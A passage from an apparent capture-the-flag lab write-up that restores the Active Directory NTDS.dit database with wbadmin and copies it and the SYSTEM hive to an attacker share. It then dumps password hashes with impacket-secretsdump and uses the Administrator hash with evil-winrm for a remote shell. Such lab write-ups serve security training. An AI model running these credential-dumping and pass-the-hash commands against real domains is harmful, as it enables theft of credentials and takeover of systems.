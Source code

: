 Now the **NTDS.dit** file can be restored with **wbadmin**:
```
echo y | wbadmin start recovery -version:09/16/2021-23:02 -itemtype:file -items:C:\Windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
```

After a while the file gets restored and stored in _C:\ntds.dit_ and can be downloaded to our local client:
```
copy ntds.dit X:
```

### Extracting Hashes from NTDS.dit

The **NTDS.dit** file is the Active Directory database, which is encrypted with the boot key in the registry hive _HKLM\SYSTEM_.

Saving and downloading the SYSTEM key:
```
reg save HKLM\SYSTEM system.hive

copy system.hive X:
```

Dumping the Active Directory database with **Impacket Secretsdump**:
```
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL
```
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
(...)
```

Using **Evil-WinRM** and the hash of _Administrator_ to gain a shell:
```
evil-winrm -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee
```

It works and gives us a shell as _Administrator_!
